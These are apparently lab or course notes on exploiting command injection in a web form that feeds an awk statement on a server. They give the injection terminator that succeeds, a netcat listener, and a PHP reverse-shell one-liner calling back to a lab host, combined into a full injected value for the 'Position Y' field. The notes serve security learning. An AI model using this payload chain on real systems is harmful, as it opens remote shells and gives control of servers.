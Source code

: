 #commandInjection  
* We added data in the two boxes, and it reflects in the awk statement what gets executed on the server
* ![[12 - Command Injection - Challenge- vars.png]]
```shell
awk 'BEGIN {print sqrt(((100-1234)^2) + ((200-5678)^2))}'
```
* since we know we want our command to execute AFTER, that data, we will do the command injection in the Position Y box
* After several tests, the input is getting somewhat sanitzed..
* if Y = 5678, we need to make a  terminator to then add data to above awk.
	* 5678)^2))}' ; whoami ; 
		* Failure
	* 5678)^2))}' ; whoami ;#
		* SUCCESS
		* The extra # symbol at the end of the input allowed our  injection to succeed
* Lets try to inject our php directly in here to get shell back
```shell
#start NC listening
nc -nvlp 8888

# Shell code from payloads all the things
php -r '$sock=fsockopen("192.168.176.129",8888);exec("/bin/sh -i <&3 >&3 2>&3");'

#so position Y input box will be 
5678)^2))}'; php -r '$sock=fsockopen("192.168.176.129",8888);exec("/bin/sh -i <&3 >&3 2>&3");' ;#
```

SUCCESS!